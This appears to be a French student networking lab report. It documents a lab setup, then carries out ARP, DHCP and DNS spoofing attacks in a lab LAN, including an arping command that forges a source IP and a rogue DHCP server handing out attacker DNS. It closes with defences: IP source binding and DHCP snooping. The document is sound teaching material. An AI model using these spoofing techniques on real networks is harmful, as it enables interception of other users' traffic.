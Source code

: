 # TP4 : Buffet à volonté

## Global

### Config
Les configurations sont là:
* [Routeur](/tp4/conf/R1.txt)
* [Client-sw1](conf/client-sw1.txt)
* [Client-sw2](conf/client-sw2.txt)
* [Client-sw3](conf/client-sw3.txt)
* [Infra-sw1](conf/infra-sw1.txt)

### DHCP
```
guest1> ip dhcp
    DDORA IP 10.5.20.84/24 GW 10.5.20.254

guest1> show ip

    NAME        : guest1[1]
    IP/MASK     : 10.5.20.84/24
    GATEWAY     : 10.5.20.254
    DNS         : 10.5.30.10
    DHCP SERVER : 10.5.20.253
```

### Ping
* Guest1 ---> Admin1
```
guest1> ping 10.5.10.11
    10.5.10.11 icmp_seq=1 timeout
    84 bytes from 10.5.10.11 icmp_seq=2 ttl=63 time=15.559 ms
    84 bytes from 10.5.10.11 icmp_seq=3 ttl=63 time=13.397 ms
    84 bytes from 10.5.10.11 icmp_seq=4 ttl=63 time=15.539 ms
    84 bytes from 10.5.10.11 icmp_seq=5 ttl=63 time=17.593 ms
```

* Guest1 ---> Internet
```
guest1> ping 1.1.1.1
    84 bytes from 1.1.1.1 icmp_seq=1 ttl=54 time=30.307 ms
    84 bytes from 1.1.1.1 icmp_seq=2 ttl=54 time=28.250 ms
    84 bytes from 1.1.1.1 icmp_seq=3 ttl=54 time=22.620 ms
    84 bytes from 1.1.1.1 icmp_seq=4 ttl=54 time=23.921 ms
    84 bytes from 1.1.1.1 icmp_seq=5 ttl=54 time=29.459 ms
```

* Guest1 ---> Guest2 (with DNS)
```
guest1> ping client2.tp5.b2
    client2.tp5.b2 resolved to 10.5.20.12
    84 bytes from 10.5.20.12 icmp_seq=1 ttl=64 time=0.612 ms
    84 bytes from 10.5.20.12 icmp_seq=2 ttl=64 time=0.400 ms
    84 bytes from 10.5.20.12 icmp_seq=3 ttl=64 time=0.423 ms
    84 bytes from 10.5.20.12 icmp_seq=4 ttl=64 time=0.416 ms
    84 bytes from 10.5.20.12 icmp_seq=5 ttl=64 time=0.770 ms
```


## 2. Sécurité attack & defense : spoofing, VLAN attack

### A. Offensive

#### ARP Spoofing

Table ARP Client (avant)
```
guest1> show arp

ca:01:05:b0:00:1d  10.5.20.254 expires in 109 seconds
```

```
[saru@attack ~]$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

[saru@attack ~]$ sudo arping -c 5 -U -s 10.5.20.5 -I enp0s3 10.5.20.84
ARPING 10.5.20.84 from 10.5.20.5 enp0s3
Unicast reply from 10.5.20.84 [00:50:79:66:68:01]  2.390ms
Unicast reply from 10.5.20.84 [00:50:79:66:68:01]  2.518ms
Unicast reply from 10.5.20.84 [00:50:79:66:68:01]  1.808ms
Unicast reply from 10.5.20.84 [00:50:79:66:68:01]  10.742ms
Sent 5 probes (1 broadcast(s))
Received 4 response(s)
```

Table ARP Client (apres)
```
guest1> show arp

ca:01:05:b0:00:1d  10.5.20.254 expires in 80 seconds
08:00:27:45:84:4f  10.5.20.5 expires in 116 seconds
```

##### DHCP spoofing

Configuration de base client1:
```
guest1> show ip

    NAME        : guest1[1]
    IP/MASK     : 10.5.20.84/24
    GATEWAY     : 10.5.20.254
    DNS         : 10.5.30.10
    DHCP SERVER : 10.5.20.253
    DHCP LEASE  : 594, 600/300/525
    DOMAIN NAME : tp5.b2
```

On va utiliser notre attaquant comme serveur dhcp car il est déjà connecté.
La plage d'adressage sera de 1 à 10 au lieu de 10 à 100.
On spam aussi le `DHCP` de requête ARP pour avoir la priorité avec le DHCP de l'attaquant. (je ne sais pas si ça sert vraiment)

On relance :
```
guest1> ip dhcp
    DDORA IP 10.5.20.2/24 GW 10.5.20.254

guest1> show ip

    NAME        : guest1[1]
    IP/MASK     : 10.5.20.2/24
    GATEWAY     : 10.5.20.254
    DNS         : 10.5.20.66
    DHCP SERVER : 10.5.20.66
    DHCP LEASE  : 594, 600/300/525
    DOMAIN NAME : getHacked.b2
```

#### DNS Spoofing
On va rediriger tous les pings vers l'attaquant
```
guest1> ping client2.tp5.b2
    client2.tp5.b2 resolved to 10.5.20.66
    84 bytes from 10.5.20.12 icmp_seq=1 ttl=64 time=0.637 ms
    84 bytes from 10.5.20.12 icmp_seq=2 ttl=64 time=0.548 ms
    84 bytes from 10.5.20.12 icmp_seq=3 ttl=64 time=0.495 ms
    84 bytes from 10.5.20.12 icmp_seq=4 ttl=64 time=0.690 ms
    84 bytes from 10.5.20.12 icmp_seq=5 ttl=64 time=0.553 ms
```

### B. Defensive

#### ARP Spoofing
```
client-sw3#show ip source binding
    MacAddress          IpAddress        Lease(sec)  Type           VLAN  Interface
    ------------------  ---------------  ----------  -------------  ----  --------------------
    00:50:79:66:68:01   10.5.20.86       infinite    static          20    Ethernet0/0
    08:00:27:4D:A0:6D   10.5.20.253      infinite    static          20    Ethernet0/1
    Total number of bindings: 2
```

#### DHCP Spoofing

Configuration guest1 (avant)
```
guest1> ip dhcp
    DORA IP 10.5.20.2/24 GW 10.5.20.254

    guest1> show ip

    NAME        : guest1[1]
    IP/MASK     : 10.5.20.2/24
    GATEWAY     : 10.5.20.254
    DNS         : 10.5.20.66
    DHCP SERVER : 10.5.20.66
    DHCP LEASE  : 596, 600/300/525
    DOMAIN NAME : getHacked.b2
```

Ajout du `dhcp` au switch
```
client-sw3#show ip dhcp snooping

    DHCP snooping trust/rate is configured on the following Interfaces:

    Interface                    Trusted     Rate limit (pps)
    ------------------------     -------     ----------------
    Ethernet0/1                  yes         unlimited
```

Configuration guest1 (apres)
```
guest1> ip dhcp
    DDORA IP 10.5.20.87/24 GW 10.5.20.254

    guest1> show ip

    NAME        : guest1[1]
    IP/MASK     : 10.5.20.87/24
    GATEWAY     : 10.5.20.254
    DNS         : 10.5.30.10
    DHCP SERVER : 10.5.20.253
    DHCP LEASE  : 594, 600/300/525
    DOMAIN NAME : tp5.b2
```

#### Messing up with VLANs

Déjà expliqué dans le sujet.
Du coup j'ai décidé de la désactiver et de faire IP source guard.
Je te jure.



C'était sympa à faire j'essairai d'utiliser scapy la prochaine fois.